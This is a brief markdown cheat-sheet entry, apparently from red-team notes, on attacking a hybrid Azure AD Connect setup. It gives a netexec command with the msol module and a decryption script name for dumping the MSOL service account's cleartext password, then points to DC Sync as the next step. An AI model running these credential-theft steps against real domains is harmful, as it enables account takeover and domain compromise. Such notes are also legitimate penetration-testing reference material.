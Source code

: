 # Hybrid Environment (Azure AD Connect)

## Tools: CrackMapExec/Netexec 

#### 1) Dump cleartext password of MSOL Account on AAD Connect server

 - netexec smb IP -u USER -p PASSWORD -M msol

 - azuread_decrypt_msol_v2.ps1

### After that, you may proceed to DC Sync
